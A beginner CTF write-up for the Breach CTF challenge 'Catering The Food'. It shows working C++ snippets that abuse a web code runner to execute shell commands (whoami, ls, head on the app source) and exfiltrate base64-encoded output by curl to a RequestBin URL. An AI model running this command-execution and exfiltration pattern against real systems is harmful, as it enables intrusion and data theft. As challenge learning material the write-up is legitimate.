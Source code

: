 ```yaml
---
title: "Catering The Food"
date: 2025-04-10 12:29:58 +0200
categories: writeups ctf
tags: ctf rce requestbin
description: Writeup of the Catering The Food challenge from the Breach CTF.
image: ../assets/images/posts/logos/breach-ctf.png
---
```

## Introduction

**Author**: Álvaro Bernal (aka. **trr0r**)

This writeup walks through the challenge **Catering The Food** from the [Breach CTF](https://ctf.breachers.in/). It is intended for **beginners** and includes detailed descriptions of each step, along with commentary for every screenshot. I believe the proposed solution is not the intended path for the challenge, but exploring alternative exploitation techniques is **valuable**, as it broadens our understanding and reveals a range of **potential attack vectors**.

___
### Request Bin

First, we need to go to [Requestbin](https://requestbin.whapi.cloud/) and create a **public URL** where we will be receiving the **output** of the commands we execute.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406202922.png>)

By clicking on `Create a RequestBin`, a public URL endpoint is generated. We’ll copy this URL to the clipboard, since it will be required in subsequent steps.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406203025.png>)
### Receiving `curl` command

The code snippet demonstrates using the `system()` function in C++ to run a `curl` command:

```cpp
#include <iostream>
#include <iostream>
#include <cstdlib>  // To use system()

// Author: Álvaro Bernal (aka. trr0r)

int main() {
    // Declare curl command
    const char* command = "curl http://<your-request-bin-url>/testingifcurlworks";
    
    // Make a system call to execute curl command
    int result = system(command);
    return 0;
}
```

The previously written code will be pasted into the website, which provides an environment for executing C++ code directly.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406203526.png>)

Shortly after, a GET request will be triggered and received at the previously created RequestBin endpoint (public URL).

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406203348.png>)
### Getting comands output

This stage of the challenge becomes more **complex**. Previously, it was enough to confirm that the target system was susceptible to **remote command execution**. Now, however, we need to ensure we can execute **arbitrary commands reliably**. To facilitate this and minimize potential errors, we’ll implement two helper functions that will **streamline** the command injection process and improve flexibility:

- `base64_encode`: Encodes command output to Base64.
- `url_escape`: Escapes characters to make the data safe for URLs.

In summary, the code that we will need to input into the webpage to **execute arbitrary commands seamlessly**, without any complications, is as follows:

```cpp
#include <iostream>
#include <cstdio>
#include <cstdlib>
#include <string>

// Author: Álvaro Bernal (aka. trr0r)

// Function to manually encode a string in Base64
std::string base64_encode(const std::string& input) {
    const std::string base64_chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";
    std::string encoded;
    int val = 0, valb = -6;
    for (unsigned char c : input) {
        val = (val << 8) + c;
        valb += 8;
        while (valb >= 0) {
            encoded.push_back(base64_chars[(val >> valb) & 0x3F]);
            valb -= 6;
        }
    }
    if (valb > -6) encoded.push_back(base64_chars[((val << 8) >> (valb + 8)) & 0x3F]);
    while (encoded.size() % 4) encoded.push_back('=');
    return encoded;
}

// Function to escape special characters for URL encoding
std::string url_escape(const std::string& str) {
    std::string escaped;
    for (char c : str) {
        if (c == ' ') escaped += "+";  // Replace space with "+"
        else if (c == '&') escaped += "%26";  // Escape "&"
        else if (c == '?') escaped += "%3F";  // Escape "?"
        else if (c == '=') escaped += "%3D";  // Escape "="
        else if (c == '%') escaped += "%25";  // Escape "%"
        else if (c == '/') escaped += "%2F";  // Escape "/"
        else if (c == '#') escaped += "%23";  // Escape "#"
        else escaped += c;  // Add characters as-is if they are not special
    }
    return escaped;
}

int main() {
    FILE* fp = popen("whoami", "r");  // Execute "whoami" command - Modifiy as your needs
    if (fp == nullptr) return 1;  // Exit if command execution fails

    char buffer[512];
    std::string output;
    while (fgets(buffer, sizeof(buffer), fp)) {
        output += buffer;  // Add each line of the output to the string
    }
    fclose(fp);  // Close the file pointer

    if (!output.empty() && output[output.size() - 1] == '\n') output.pop_back();  // Remove newline character at the end

    std::string encoded_output = base64_encode(output);  // Encode the output in Base64
    std::string escaped_output = url_escape(encoded_output);  // Escape the Base64 encoded output for URL

    // Prepare the curl command with the Base64 encoded and URL escaped output
    std::string curl_command = "curl \"http://<your-request-bin-url>/?output=" + escaped_output + "\"";
    system(curl_command.c_str());  // Execute the curl command

    return 0;
}
```
### Receiving comands output

The procedure executed by the C++ script is outlined below.
1. Run `whoami`
2. Encode in Base64
3. Escape for URL
4. Send with `curl`.

Upon completion, we will see a **base64-encoded** string being received at our RequestBin endpoint.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406210403.png>)

___
### Getting the flag

By decoding the **base64-encoded** content, we will uncover the **username** under which the remote commands are being executed.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406210349.png>)

Next, we will modify the previously shared code slightly to execute the following command, which will enable us to **list all directories and files from the system's root**.

```bash
ls -la
```

By repeating the same process as before (decoding the base64-encoded string received at the RequestBin), we will obtain the **directory structure**.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406210445.png>)

Next, we will make another modification to the code, this time to display the contents within the **app directory**.

```bash
ls -la /app/
```

Upon inspection, we will observe a directory (**/static**) and a file (**WEB_API.py**), the latter of which will stand out since it is responsible for serving the website.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406210558.png>)

If we try to access the content of the file, we will observe that **no request** is made to our RequestBin endpoint.

```bash
cat /app/WEB_API.py
```

This problem may occur because the file's content is **too large**, causing the URL to become **too long**, which prevents it from being sent due to the character limit. As an alternative, we will run the following command to display the **first 20 lines of the file**.

```bash
head -n 20 /app/WEB_API.py
```

At this point, we will notice that we receive a request (which is quite long). After decoding its content, we will discover that we have successfully accessed **the flag**, completing the challenge in a fully **valid alternative way**.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406210752.png>)

___
## Final Notes

This challenge tested basic concepts in **RCE**, exfiltration techniques via **HTTP requests**, and basic reconnaissance within a containerized environment. For **beginners**, it's a great introduction to chaining small steps into a successful exploit path.